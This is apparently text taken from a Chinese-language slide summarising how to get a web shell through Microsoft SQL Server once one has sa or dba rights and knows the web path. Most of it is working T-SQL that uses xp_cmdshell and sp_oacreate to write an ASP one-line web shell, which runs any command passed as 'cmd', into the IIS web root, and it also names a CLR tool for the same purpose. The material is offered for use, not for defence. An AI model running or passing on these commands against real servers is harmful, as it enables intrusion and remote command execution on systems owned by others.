

MSSQL Getshell总结
MSSQL Getshell总结
条件
web路径已知
sa或dba权限
1.利用存储过程写shell
xp_cmdshell

sp_oacreate

本地存储过程CLR
	直接利用sharpsqltools执行命令写shell进行利用
exec master..xp_cmdshell 'echo ^<%eval request("cmd")%^> > c:\inetpub\wwwroot\shell.asp';
declare @o int, @f int, @t int, @ret int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'createtextfile', @f out, 'c:\inetpub\wwwroot\shell.asp', 1
exec @ret = sp_oamethod @f, 'writeline', NULL,'<%execute(request("cmd"))%>'